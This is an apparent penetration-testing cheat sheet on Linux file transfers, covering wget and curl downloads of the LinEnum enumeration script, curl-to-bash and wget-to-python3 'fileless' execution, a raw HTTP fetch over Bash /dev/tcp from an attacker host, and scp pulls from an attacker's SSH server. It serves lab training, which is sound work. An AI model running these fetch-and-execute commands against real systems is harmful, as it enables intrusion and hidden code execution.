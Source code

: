 ### Web Downloads: wget & cURL

```bash
# wget (save as file)
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

# curl (save as file)
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

---

### Fileless Attacks (pipes)

Run scripts directly in memory using pipes:

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

---

### Download with Bash (/dev/tcp)

If common tools missing, use Bash networking:

```bash
# open TCP fd
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3

# read response
cat <&3
```

---

### SSH / SCP Downloads

Start SSH server on attacker (Pwnbox) and use `scp` to pull files:

```bash
sudo systemctl enable --now ssh
netstat -lnpt

# From target to attacker
scp plaintext@192.168.49.128:/root/myroot.txt .
```

---

## Upload Operations
